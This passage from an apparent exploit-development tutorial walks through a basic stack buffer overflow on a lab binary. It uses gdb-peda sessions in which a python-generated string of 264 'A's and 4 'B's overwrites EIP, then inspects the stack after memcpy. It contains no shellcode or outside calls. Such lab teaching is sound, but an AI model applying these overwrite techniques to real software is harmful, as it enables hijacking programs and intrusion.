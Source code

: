 Segmentation fault tell us the program try to access memory address that the program has no authorization. You may notice that the EIP register has been manipulated by our input "A" which represent 0x41 in hex. If you input more 3 "A" it could overide all EIP.

```
gdb-peda$ r $(python -c 'print("A"*264 + "B"*4)')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("A"*264 + "B"*4)')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0x80003115 --> 0x0 
EDX: 0xb7fb2870 --> 0x0 
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff5b0 --> 0x2 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff5b0 --> 0x2 
0004| 0xbffff5b4 --> 0xbffff644 --> 0xbffff769 ("/kapi/exploitdev/stack_overflow_basic")
0008| 0xbffff5b8 --> 0xbffff650 --> 0xbffff89c ("XDG_SESSION_ID=470")
0012| 0xbffff5bc --> 0x0 
0016| 0xbffff5c0 --> 0x0 
0020| 0xbffff5c4 --> 0x0 
0024| 0xbffff5c8 --> 0xb7fb1000 --> 0x1aedb0 
0028| 0xbffff5cc --> 0xb7fffc04 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

As we expected, the EIP has been overrided by 4 bytes of "B" that I've extended from 264 bytes of "A". Let's check how the stack look like.
```
gdb-peda$ break *main+62
Breakpoint 1 at 0x63e: file stack_overflow_basic.c, line 5.
gdb-peda$ r $(python -c 'print("A"*264 + "B"*4)')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("A"*264 + "B"*4)')
[----------------------------------registers-----------------------------------]
EAX: 0xbffff4a4 ('A' <repeats 200 times>...)
EBX: 0x80002000 --> 0x1ef8 
ECX: 0xbffff500 ('A' <repeats 172 times>, "BBBB\002")
EDX: 0xbffff4a4 ('A' <repeats 200 times>...)
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0xbffff5a8 ("AAAABBBB\002")
ESP: 0xbffff498 --> 0xbffff4a4 ('A' <repeats 200 times>...)
EIP: 0x8000063e (<main+62>:     add    esp,0xc)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80000632 <main+50>:        lea    eax,[ebp-0x104]
   0x80000638 <main+56>:        push   eax
   0x80000639 <main+57>:        call   0x80000450 <memcpy@plt>
=> 0x8000063e <main+62>:        add    esp,0xc
   0x80000641 <main+65>:        lea    eax,[ebp-0x104]
   0x80000647 <main+71>:        push   eax
   0x80000648 <main+72>:        call   0x80000440 <printf@plt>
   0x8000064d <main+77>:        add    esp,0x4
```